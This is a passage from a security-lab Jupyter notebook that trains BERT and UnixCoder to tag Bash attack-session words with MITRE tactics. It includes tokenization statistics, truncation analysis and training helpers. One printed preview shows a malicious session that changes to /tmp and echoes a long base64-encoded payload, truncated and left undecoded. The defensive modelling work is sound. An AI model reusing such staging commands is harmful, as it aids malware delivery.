bert_tokens_per_session = [len(ids) for ids in bert_tokenized['input_ids']]

# Tokenize with UnixCoder
unix_tokenized = unixcoder_tokenizer(train_sentences)
unix_tokens_per_session = [len(ids) for ids in unix_tokenized['input_ids']]

print("Corpus Tokenization Statistics:")
print("=" * 60)
print(f"{'Metric':<30} | {'BERT':<12} | {'UnixCoder':<12}")
print("-" * 60)
print(f"{'Average tokens/session':<30} | {np.mean(bert_tokens_per_session):<12.2f} | {np.mean(unix_tokens_per_session):<12.2f}")
print(f"{'Max tokens/session':<30} | {max(bert_tokens_per_session):<12} | {max(unix_tokens_per_session):<12}")
print(f"{'Min tokens/session':<30} | {min(bert_tokens_per_session):<12} | {min(unix_tokens_per_session):<12}")
print(f"{'Median tokens/session':<30} | {np.median(bert_tokens_per_session):<12.1f} | {np.median(unix_tokens_per_session):<12.1f}")

[transformers] Token indices sequence length is longer than the specified maximum sequence length for this model (1889 > 512). Running this sequence through the model will result in indexing errors


Corpus Tokenization Statistics:
Metric                         | BERT         | UnixCoder   
------------------------------------------------------------
Average tokens/session         | 178.59       | 409.32      
Max tokens/session             | 1889         | 28920       
Min tokens/session             | 4            | 4           
Median tokens/session          | 71.0         | 62.0        


In [22]:
# --- Analyze [UNK] token usage ---
bert_unk_id = bert_tokenizer.unk_token_id
unix_unk_id = unixcoder_tokenizer.unk_token_id

bert_unk_count = sum(1 for ids in bert_tokenized['input_ids'] for id in ids if id == bert_unk_id)
unix_unk_count = sum(1 for ids in unix_tokenized['input_ids'] for id in ids if id == unix_unk_id)

print(f"\n[UNK] Token Analysis:")
print(f"  BERT [UNK] occurrences: {bert_unk_count}")
print(f"  UnixCoder [UNK] occurrences: {unix_unk_count}")


[UNK] Token Analysis:
  BERT [UNK] occurrences: 303
  UnixCoder [UNK] occurrences: 0


### 2.3 Truncation Analysis

**Instructions:**
- Set `max_length=512`. Count how many sessions are currently truncated.
- Analyze the session with the maximum number of tokens.

**Q:** Why is the longest session so long? What does it contain?

With `max_length=512`, **24/251 BERT sessions (9.56%)** and **29/251 UnixCoder sessions (11.55%)** would be truncated before word-level optimization. The longest session contains **134 Bash words**, but its length is dominated by extremely long encoded strings: the maximum word length is **46860 characters**, and only **2 words are longer than 30 characters**. The preview shows a large base64-like payload passed through shell commands. We do not decode it, because the dataset may contain malicious scripts; for modeling purposes, the important point is that such words create huge token sequences without adding proportional semantic value.


In [23]:
# --- Truncation analysis with max_length=512 ---
MAX_LENGTH = 512

# Count sessions exceeding max_length
bert_truncated = sum(1 for n in bert_tokens_per_session if n > MAX_LENGTH)
unix_truncated = sum(1 for n in unix_tokens_per_session if n > MAX_LENGTH)

print(f"Truncation Analysis (max_length={MAX_LENGTH}):")
print(f"  BERT - Sessions truncated: {bert_truncated}/{len(train_df)} ({bert_truncated/len(train_df)*100:.2f}%)")
print(f"  UnixCoder - Sessions truncated: {unix_truncated}/{len(train_df)} ({unix_truncated/len(train_df)*100:.2f}%)")

Truncation Analysis (max_length=512):
  BERT - Sessions truncated: 24/251 (9.56%)
  UnixCoder - Sessions truncated: 29/251 (11.55%)


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task2_plots/task2_extra_plots.png




In [24]:
# --- Plot: Original vs Truncated Tokens & ECDF ---
# Tokenizziamo con il parametro truncation per simulare l'effetto del max_length
MAX_LENGTH = 512
bert_tokenized_trunc_512 = bert_tokenizer(train_sentences, truncation=True, max_length=MAX_LENGTH)
unix_tokenized_trunc_512 = unixcoder_tokenizer(train_sentences, truncation=True, max_length=MAX_LENGTH)

bert_trunc_len = [len(ids) for ids in bert_tokenized_trunc_512['input_ids']]
unix_trunc_len = [len(ids) for ids in unix_tokenized_trunc_512['input_ids']]

fig, axs = plt.subplots(2, 2, figsize=(16, 12))

# 1. ECDF per BERT
lengths_bert, probs_bert = get_ecdf(bert_tokens_per_session)
axs[0, 0].scatter(lengths_bert, probs_bert, color='#2E86C1', s=20, alpha=0.7)
axs[0, 0].axvline(MAX_LENGTH, color='firebrick', linestyle='--', linewidth=PLOT_LINEWIDTH, label='Max Context (512)')
axs[0, 0].set_title('ECDF of Token Counts (BERT)')
axs[0, 0].set_xlabel('Number of Tokens (log scale)')
axs[0, 0].set_ylabel('ECDF')
axs[0, 0].set_xscale('log')
axs[0, 0].grid(True, linestyle='--', alpha=0.5)
axs[0, 0].legend()

# 2. ECDF per UnixCoder
lengths_unix, probs_unix = get_ecdf(unix_tokens_per_session)
axs[0, 1].scatter(lengths_unix, probs_unix, color='#27AE60', s=20, alpha=0.7)
axs[0, 1].axvline(MAX_LENGTH, color='firebrick', linestyle='--', linewidth=PLOT_LINEWIDTH, label='Max Context (512)')
axs[0, 1].set_title('ECDF of Token Counts (UnixCoder)')
axs[0, 1].set_xlabel('Number of Tokens (log scale)')
axs[0, 1].set_ylabel('ECDF')
axs[0, 1].set_xscale('log')
axs[0, 1].grid(True, linestyle='--', alpha=0.5)
axs[0, 1].legend()

# 3. Original vs Truncated (BERT)
axs[1, 0].scatter(bert_tokens_per_session, bert_trunc_len, color='#2E86C1', s=30, alpha=0.6, edgecolors='k')
axs[1, 0].axhline(MAX_LENGTH, color='firebrick', linestyle='--', linewidth=PLOT_LINEWIDTH, label='Max Context (512)')
axs[1, 0].set_title('Original vs Truncated Tokens (BERT)')
axs[1, 0].set_xlabel('Original Tokens (log scale)')
axs[1, 0].set_ylabel('Truncated Tokens')
axs[1, 0].set_xscale('log')
axs[1, 0].grid(True, linestyle='--', alpha=0.5)
axs[1, 0].legend()

# 4. Original vs Truncated (UnixCoder)
axs[1, 1].scatter(unix_tokens_per_session, unix_trunc_len, color='#27AE60', s=30, alpha=0.6, edgecolors='k')
axs[1, 1].axhline(MAX_LENGTH, color='firebrick', linestyle='--', linewidth=PLOT_LINEWIDTH, label='Max Context (512)')
axs[1, 1].set_title('Original vs Truncated Tokens (UnixCoder)')
axs[1, 1].set_xlabel('Original Tokens (log scale)')
axs[1, 1].set_ylabel('Truncated Tokens')
axs[1, 1].set_xscale('log')
axs[1, 1].grid(True, linestyle='--', alpha=0.5)
axs[1, 1].legend()

fig.suptitle('Tokenization Distributions and Truncation Analysis', fontsize=16, y=1.02)
plt.tight_layout()
save_plot(fig, 'task2_extra_plots', path=save_dir)
plt.show()


In [25]:
# --- Analyze the longest session ---
max_bert_idx = np.argmax(bert_tokens_per_session)
max_unix_idx = np.argmax(unix_tokens_per_session)

print(f"Longest session (by BERT tokenization):")
print(f"  Index: {max_bert_idx}")
print(f"  BERT tokens: {bert_tokens_per_session[max_bert_idx]}")
print(f"  UnixCoder tokens: {unix_tokens_per_session[max_bert_idx]}")
print(f"  Number of words: {len(train_df.iloc[max_bert_idx]['session'].split())}")
print(f"\n  Session preview (first 500 chars):")
print(f"  {train_df.iloc[max_bert_idx]['session'][:500]}...")

# Look at individual word lengths
max_session_words = train_df.iloc[max_bert_idx]['session'].split()
word_lengths = [len(w) for w in max_session_words]
print(f"\n  Word length statistics in this session:")
print(f"    Max word length: {max(word_lengths)}")
print(f"    Words > 30 chars: {sum(1 for l in word_lengths if l > 30)}")

Longest session (by BERT tokenization):
  Index: 14
  BERT tokens: 1889
  UnixCoder tokens: 28920
  Number of words: 134

  Session preview (first 500 chars):
  cd /tmp || /var/tmp || /dev/shm ; echo ZXZhbCB1bnBhY2sgdT0+cXtfIkZVWSgiMVA8Rl1DOTctUztSYF0oIj1SPFdFTjhSPFsiQEhEPFY1Uj1GRUQ7VyhdKVMkVC1CWFEuIzROLDM8UStDKFItUjxAPTZZTDk3LVMoIjFTXzk3KVY6NjFPPENMKjs3REApJyFPPEcxQS8yPFQtIyxHLlBJTT4yIWA4ViVOODZFUy8yQEIoVyFQKEJEWyJGVVkoJCFBOSZVUy8yQEIwMihMKEVAQl8qM0wqOzdEQDAmJVU9JkBdKiIpTDtWLUE7JkFPPFcwQiozTCoiRlVZKCIxTDo2WUE8VV1NODdAXS1DTCo7N0RAKSctTDk2NVAvMyxbIkBJTT4yYERfO0ZFQzpSYF0oJj1FPSZZSThWTEgqM0wqOzdEQCkmRVI4VllBOzY0QC8yIUc5NzFOOjYtSyoiRFsiRlVZKCIxUjk2JUw7RiVNO...

  Word length statistics in this session:
    Max word length: 46860
    Words > 30 chars: 2


### 2.4 Optimization: Word Truncation

**Instructions:**
- Truncate individual words longer than **30 characters**.
- Re-tokenize and plot "Number of words" vs "Number of tokens" for both models.
- Report which tokenizer has the best ratio after optimization.
- Report how many sessions are still truncated.

**Q:** How does truncating long words affect the tokenization efficiency?

Truncating words longer than **30 characters** strongly improves tokenization efficiency. BERT drops from **178.59** to **128.38 average tokens/session**, while UnixCoder drops from **409.32** to **110.52 average tokens/session**. The maximum sequence lengths also shrink substantially, from **1889 to 920** for BERT and from **28920 to 824** for UnixCoder. After truncation, both tokenizers still have **6 sessions** above 512 tokens, but UnixCoder becomes the more efficient tokenizer overall, with the best token-to-word ratio (**2.77** in the plotted comparison).


In [26]:
# --- Function to truncate long words ---
MAX_WORD_LENGTH = 30

def truncate_long_words(sentence, max_len=MAX_WORD_LENGTH):
    """Truncate words longer than max_len characters."""
    words = sentence.split()
    truncated_words = [w[:max_len] if len(w) > max_len else w for w in words]
    return ' '.join(truncated_words)

# Apply truncation to training data
train_sentences_truncated = [truncate_long_words(s) for s in train_sentences]

# Example of truncation effect
print("Example of word truncation:")
long_word_example = "aGVsbG8gd29ybGQgdGhpcyBpcyBhIHZlcnkgbG9uZyBiYXNlNjQgc3RyaW5n"
print(f"  Original: {long_word_example}")
print(f"  Truncated: {long_word_example[:MAX_WORD_LENGTH]}")

Example of word truncation:
  Original: aGVsbG8gd29ybGQgdGhpcyBpcyBhIHZlcnkgbG9uZyBiYXNlNjQgc3RyaW5n
  Truncated: aGVsbG8gd29ybGQgdGhpcyBpcyBhIH


In [27]:
# --- Re-tokenize with truncated words ---
bert_tokenized_trunc = bert_tokenizer(train_sentences_truncated)
unix_tokenized_trunc = unixcoder_tokenizer(train_sentences_truncated)

bert_tokens_trunc = [len(ids) for ids in bert_tokenized_trunc['input_ids']]
unix_tokens_trunc = [len(ids) for ids in unix_tokenized_trunc['input_ids']]

# Calculate words per session
words_per_session = [len(s.split()) for s in train_sentences_truncated]

print("After word truncation (max 30 chars):")
print("=" * 60)
print(f"{'Metric':<30} | {'BERT':<12} | {'UnixCoder':<12}")
print("-" * 60)
print(f"{'Average tokens/session':<30} | {np.mean(bert_tokens_trunc):<12.2f} | {np.mean(unix_tokens_trunc):<12.2f}")
print(f"{'Max tokens/session':<30} | {max(bert_tokens_trunc):<12} | {max(unix_tokens_trunc):<12}")

# Count truncated sessions
bert_still_truncated = sum(1 for n in bert_tokens_trunc if n > MAX_LENGTH)
unix_still_truncated = sum(1 for n in unix_tokens_trunc if n > MAX_LENGTH)
print(f"\n{'Sessions still truncated':<30} | {bert_still_truncated:<12} | {unix_still_truncated:<12}")

After word truncation (max 30 chars):
Metric                         | BERT         | UnixCoder   
------------------------------------------------------------
Average tokens/session         | 128.38       | 110.52      
Max tokens/session             | 920          | 824         

Sessions still truncated       | 6            | 6           


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task2_plots/words_vs_tokens.png





Best token-to-word ratio: UnixCoder (2.77)


In [28]:
# --- Plot: Number of Words vs Number of Tokens ---
fig, axs = plt.subplots(1, 2, figsize=(14, 5))

# BERT plot
axs[0].scatter(words_per_session, bert_tokens_trunc, alpha=0.6,
               c='#2E86C1', edgecolors='black', linewidth=0.5, s=50)
axs[0].plot([0, max(words_per_session)], [0, max(words_per_session)],
            'r--', label='1:1 ratio', linewidth=PLOT_LINEWIDTH)
axs[0].axhline(y=512, color='firebrick', linestyle='-', linewidth=PLOT_LINEWIDTH, label='Max length (512)')
axs[0].set_xlabel('Number of Words', fontsize=PLOT_LABEL_SIZE)
axs[0].set_ylabel('Number of Tokens', fontsize=PLOT_LABEL_SIZE)
axs[0].set_title('BERT Tokenization', fontsize=PLOT_TITLE_SIZE)
format_report_axes(axs[0], legend=True)
axs[0].grid(True, linestyle='--', alpha=0.7)

# Calculate and display ratio
bert_ratio = np.mean(np.array(bert_tokens_trunc) / np.array(words_per_session))
axs[0].text(0.05, 0.95, f'Avg ratio: {bert_ratio:.2f}', transform=axs[0].transAxes,
            fontsize=PLOT_ANNOTATION_SIZE, verticalalignment='top', bbox=dict(boxstyle='round', facecolor='wheat', alpha=0.5))

# UnixCoder plot
axs[1].scatter(words_per_session, unix_tokens_trunc, alpha=0.6,
               c='#27AE60', edgecolors='black', linewidth=0.5, s=50)
axs[1].plot([0, max(words_per_session)], [0, max(words_per_session)],
            'r--', label='1:1 ratio', linewidth=PLOT_LINEWIDTH)
axs[1].axhline(y=512, color='firebrick', linestyle='-', linewidth=PLOT_LINEWIDTH, label='Max length (512)')
axs[1].set_xlabel('Number of Words', fontsize=PLOT_LABEL_SIZE)
axs[1].set_ylabel('Number of Tokens', fontsize=PLOT_LABEL_SIZE)
axs[1].set_title('UnixCoder Tokenization', fontsize=PLOT_TITLE_SIZE)
format_report_axes(axs[1], legend=True)
axs[1].grid(True, linestyle='--', alpha=0.7)

# Calculate and display ratio
unix_ratio = np.mean(np.array(unix_tokens_trunc) / np.array(words_per_session))
axs[1].text(0.05, 0.95, f'Avg ratio: {unix_ratio:.2f}', transform=axs[1].transAxes,
            fontsize=PLOT_ANNOTATION_SIZE, verticalalignment='top', bbox=dict(boxstyle='round', facecolor='wheat', alpha=0.5))

fig.suptitle('Words vs Tokens (After Word Truncation)', fontsize=PLOT_TITLE_SIZE, y=1.04)
plt.tight_layout()
save_plot(fig, 'words_vs_tokens', path=save_dir)
plt.show()

print(f"\nBest token-to-word ratio: {'UnixCoder' if unix_ratio < bert_ratio else 'BERT'} ({min(bert_ratio, unix_ratio):.2f})")

## Task 3 — Model Training

Fine-tune models for Token Classification (classifying each token into a MITRE Tactic).

In [29]:
# --- Create directory for plots ---
save_dir = results_path + 'images/' + 'task3_plots/'
os.makedirs(save_dir, exist_ok=True)

# --- Prepare datasets with word truncation ---
def prepare_dataset(df, max_word_len=30):
    """Prepare one label per split()-defined Bash word."""
    data = []
    for row_index, row in df.iterrows():
        words = list(row['words'])
        tags = list(row['label'])
        if words != str(row['session']).split():
            raise ValueError(
                f"Row {row_index}: cached Bash words do not match split()."
            )
        if len(words) != len(tags):
            raise ValueError(
                f"Row {row_index}: {len(words)} Bash words but "
                f"{len(tags)} aligned labels."
            )

        truncated_words = [
            word[:max_word_len] if len(word) > max_word_len else word
            for word in words
        ]
        data.append({
            'session': ' '.join(truncated_words),
            'words': truncated_words,
            'label': tags,
        })
    return pd.DataFrame(data)


train_df_prepared = prepare_dataset(train_df)
test_df_prepared = prepare_dataset(test_df)

# Iterative multilabel stratification operates on tactic presence per session.
# This is more reliable than a plain random split for classes represented by
# only a handful of sessions (especially Other and Impact).
split_labels = sorted({
    tag for tags in train_df_prepared['label'] for tag in tags
})
session_label_matrix = np.asarray([
    [int(label in set(tags)) for label in split_labels]
    for tags in train_df_prepared['label']
], dtype=np.int8)

splitter = MultilabelStratifiedShuffleSplit(
    n_splits=1,
    test_size=0.2,
    random_state=42,
)
train_indices, val_indices = next(
    splitter.split(np.zeros(len(train_df_prepared)), session_label_matrix)
)
train_df_final = train_df_prepared.iloc[train_indices].reset_index(drop=True)
val_df_final = train_df_prepared.iloc[val_indices].reset_index(drop=True)


def summarize_split_labels(df, labels):
    word_counts = Counter(tag for tags in df['label'] for tag in tags)
    session_counts = Counter(
        tag for tags in df['label'] for tag in set(tags)
    )
    return pd.DataFrame({
        'Label': labels,
        'Word count': [word_counts[label] for label in labels],
        'Sessions': [session_counts[label] for label in labels],
    })


split_summary = (
    summarize_split_labels(train_df_final, split_labels)
    .rename(columns={
        'Word count': 'Train words',
        'Sessions': 'Train sessions',
    })
    .merge(
        summarize_split_labels(val_df_final, split_labels).rename(columns={
            'Word count': 'Validation words',
            'Sessions': 'Validation sessions',
        }),
        on='Label',
    )
)

print(f"Training set: {len(train_df_final)} sessions")
print(f"Validation set: {len(val_df_final)} sessions")
print(f"Test set: {len(test_df_prepared)} sessions")
print("\nMultilabel-stratified split summary:")
display(split_summary)


Training set: 202 sessions
Validation set: 49 sessions
Test set: 108 sessions

Multilabel-stratified split summary:


,Label,Train words,Train sessions,Validation words,Validation sessions
0,Defense Evasion,255,25,55,6
1,Discovery,4731,85,1276,22
2,Execution,2641,102,595,26
3,Impact,257,18,55,5
4,Not Malicious Yet,202,35,62,9
5,Other,184,13,25,3
6,Persistence,910,49,223,12


### 3.0 Data Preparation for NER

Prepare the datasets for token classification using HuggingFace utilities.
The training/validation partition uses **iterative multilabel stratification**
at session level so that rare MITRE tactics are represented more reliably than
with a plain random split.


In [30]:
# --- Create label mappings ---
unique_labels = list(set(tag for tags in train_df['label'] for tag in tags))
unique_labels = sorted(unique_labels)

id2label = {i: label for i, label in enumerate(unique_labels)}
label2id = {label: i for i, label in enumerate(unique_labels)}

print(f"Number of unique labels: {len(unique_labels)}")
print(f"Labels: {unique_labels}")
print(f"\nLabel to ID mapping: {label2id}")

Number of unique labels: 7
Labels: ['Defense Evasion', 'Discovery', 'Execution', 'Impact', 'Not Malicious Yet', 'Other', 'Persistence']

Label to ID mapping: {'Defense Evasion': 0, 'Discovery': 1, 'Execution': 2, 'Impact': 3, 'Not Malicious Yet': 4, 'Other': 5, 'Persistence': 6}


In [31]:
# --- Convert DataFrames to HuggingFace Datasets ---
def convert_to_hf_dataset(df):
    """Convert pandas DataFrame to HuggingFace Dataset."""
    return Dataset.from_pandas(df.reset_index(drop=True))

full_ds = DatasetDict({
    "train": convert_to_hf_dataset(train_df_final),
    "valid": convert_to_hf_dataset(val_df_final),
    "test": convert_to_hf_dataset(test_df_prepared)
})

print("Dataset structure:")
print(full_ds)

Dataset structure:
DatasetDict({
    train: Dataset({
        features: ['session', 'words', 'label'],
        num_rows: 202
    })
    valid: Dataset({
        features: ['session', 'words', 'label'],
        num_rows: 49
    })
    test: Dataset({
        features: ['session', 'words', 'label'],
        num_rows: 108
    })
})


In [32]:
# --- Convert tags to IDs ---
def convert_labels_to_ids(sample):
    """Convert tag strings to numeric IDs."""
    sample['label_id'] = [label2id[tag] for tag in sample['label']]
    return sample

encoded_dataset = full_ds.map(convert_labels_to_ids)
print("Example:")
print(f"  Labels: {encoded_dataset['train'][0]['label']}")
print(f"  Label IDs: {encoded_dataset['train'][0]['label_id']}")

Map:   0%|          | 0/202 [00:00<?, ? examples/s]

Map:   0%|          | 0/49 [00:00<?, ? examples/s]

Map:   0%|          | 0/108 [00:00<?, ? examples/s]

Example:
  Labels: ['Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution', 'Execution']
  Label IDs: [2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2, 2]


In [33]:
# --- Tokenization and Label Alignment Functions ---
def align_labels_with_tokens(labels, word_ids, label_all_tokens=True):
    """
    Align token-level labels with word-level labels for tokenized text.

    Args:
        labels: Original word-level labels
        word_ids: List of word indices that each token corresponds to
        label_all_tokens:
            - True  -> assign the label to all sub-tokens of a word
            - False -> assign the label only to the first sub-token and mask the rest
    """
    aligned_labels = []
    previous_word_id = None

    for word_id in word_ids:
        if word_id is None:
            aligned_labels.append(-100)
            continue

        if word_id >= len(labels):
            aligned_labels.append(-100)
            previous_word_id = word_id
            continue

        is_first_subtoken = word_id != previous_word_id
        if is_first_subtoken or label_all_tokens:
            aligned_labels.append(labels[word_id])
        else:
            aligned_labels.append(-100)

        previous_word_id = word_id

    return aligned_labels

def create_tokenize_and_align_function(tokenizer, label_all_tokens=True):
    """Create a tokenization function for a specific tokenizer."""
    def tokenize_and_align_labels(samples):
        tokenized_inputs = tokenizer(
            samples["words"],
            truncation=True,
            max_length=512,
            is_split_into_words=True,
        )
        all_tags = samples["label_id"]
        new_labels = []
        for i, tags in enumerate(all_tags):
            word_ids = tokenized_inputs.word_ids(i)
            aligned_labels = align_labels_with_tokens(
                tags,
                word_ids,
                label_all_tokens=label_all_tokens,
            )
            new_labels.append(aligned_labels)
        tokenized_inputs["labels"] = new_labels
        return tokenized_inputs
    return tokenize_and_align_labels

In [34]:
# --- Helper functions for training and evaluation ---
def postprocess(predictions, labels, id2label):
    """Post-process model predictions and labels for evaluation."""
    predictions = predictions.detach().cpu().clone().numpy()
    labels = labels.detach().cpu().clone().numpy()
    # Remove ignored index (special tokens) and convert to labels
    true_labels = [[id2label[l] for l in label if l != -100] for label in labels]
    true_predictions = [
        [id2label[p] for (p, l) in zip(prediction, label) if l != -100]
        for prediction, label in zip(predictions, labels)
    ]
    return true_predictions, true_labels

def compute_metrics(full_predictions, full_labels):
    """Calculate token-level metrics for token classification."""
    flat_predictions = list(chain(*full_predictions))
    flat_labels = list(chain(*full_labels))

    token_accuracy = accuracy_score(flat_labels, flat_predictions)
    token_precision = precision_score(flat_labels, flat_predictions, average='macro', zero_division=0)
    token_recall = recall_score(flat_labels, flat_predictions, average='macro', zero_division=0)
    token_f1 = f1_score(flat_labels, flat_predictions, average='macro', zero_division=0)

    return {
        "token_accuracy": token_accuracy,
        "token_precision": token_precision,
        "token_recall": token_recall,
        "token_f1": token_f1,
    }

def compute_per_class_f1(full_predictions, full_labels, unique_labels):
    """Calculate per-class F1 scores."""
    flat_predictions = list(chain(*full_predictions))
    flat_labels = list(chain(*full_labels))

    per_class_f1 = f1_score(flat_labels, flat_predictions, labels=unique_labels, average=None, zero_division=0)
    return dict(zip(unique_labels, per_class_f1))

def compute_session_fidelity(full_predictions, full_labels):
    """
    Calculate average session fidelity.
    Fidelity = Correct Predictions / Total Tokens per session
    """
    fidelities = []
    for pred, label in zip(full_predictions, full_labels):
        if len(label) > 0:
            correct = sum(1 for p, l in zip(pred, label) if p == l)
            fidelity = correct / len(label)
            fidelities.append(fidelity)
    return np.mean(fidelities) if fidelities else 0.0


def compute_sqrt_inverse_class_weights(
    training_df,
    label2id,
    max_weight=3.0,
):
    """Return moderate train-only weights for an imbalanced token objective."""
    counts = Counter(tag for tags in training_df['label'] for tag in tags)
    total = sum(counts.values())
    n_classes = len(label2id)
    weights = np.ones(n_classes, dtype=np.float32)

    for label, label_id in label2id.items():
        count = max(counts[label], 1)
        weights[label_id] = np.sqrt(total / (n_classes * count))

    weights /= weights.mean()
    weights = np.clip(weights, 0.25, max_weight)
    return torch.tensor(weights, dtype=torch.float32)


def token_classification_loss(outputs, labels, class_weights=None):
